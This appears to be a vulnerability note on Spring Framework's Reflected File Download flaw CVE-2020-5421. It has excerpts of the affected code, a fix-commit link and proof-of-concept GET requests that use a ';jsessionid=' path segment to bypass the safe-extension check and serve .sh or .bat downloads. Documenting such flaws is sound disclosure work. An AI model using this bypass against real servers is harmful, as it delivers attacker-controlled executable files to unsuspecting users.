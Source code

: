```

package org.springframework.http;
public final class ContentDisposition {
if (this.filename != null) {
    if (this.charset != null && !StandardCharsets.US_ASCII.equals(this.charset)) {
	sb.append("; filename*=");
	sb.append(encodeFilename(this.filename, this.charset));
    } else {
	sb.append("; filename=\""); 
	sb.append(this.filename).append('"');  //filename -> "sample.sh";.txt"
    }
}
```

#### CVE-2020-5421 Reflected File Download
Affected Version: < 5.2.8 or 5.1.17 or 5.0.18 or 4.3.28 Bypass CVE-2015-5211

Diff: https://github.com/spring-projects/spring-framework/commit/2281e421915627792a88acb64d0fea51ad138092

POC: 
```
GET /rfd/content?content=hello
GET /rfd/;jsessionid=/content.sh?content=%23!%2Fbin%2Fbash%0Aid
GET /rfd/;jsessionid=/content.bat?content=calc
```
Factor: 
```
org.springframework.web.servlet.mvc.method.annotation.AbstractMessageConverterMethodProcessor
private static final Set<String> WHITELISTED_EXTENSIONS = new HashSet(Arrays.asList("txt", "text", "yml", "properties", "csv", "json", "xml", "atom", "rss", "png", "jpe", "jpeg", "jpg", "gif", "wbmp", "bmp")); //允许的safeExtension
private static final Set<String> WHITELISTED_MEDIA_BASE_TYPES = new HashSet(Arrays.asList("audio", "image", "video")); 

private void addContentDispositionHeader(ServletServerHttpRequest request, ServletServerHttpResponse response) {
    String requestUri = rawUrlPathHelper.getOriginatingRequestUri(servletRequest);  // -> removeJsessionid绕过后续safeExtension校验
    filename = decodingUrlPathHelper.decodeRequestString(servletRequest, filename);
    String ext = StringUtils.getFilenameExtension(filename);
    pathParams = decodingUrlPathHelper.decodeRequestString(servletRequest, pathParams);
    String extInPathParams = StringUtils.getFilenameExtension(pathParams);
    if (!this.safeExtension(servletRequest, ext) || !this.safeExtension(servletRequest, extInPathParams)) {
	headers.add("Content-Disposition", "inline;filename=f.txt");
    }
}

org.springframework.web.util.UrlPathHelper
private String removeJsessionid(String requestUri) {
    int startIndex = requestUri.toLowerCase().indexOf(";jsessionid=");
    if (startIndex != -1) {
        int endIndex = requestUri.indexOf(59, startIndex + 12);
        String start = requestUri.substring(0, startIndex);
        requestUri = endIndex != -1 ? start + requestUri.substring(endIndex) : start;
    }
    return requestUri;
}
```
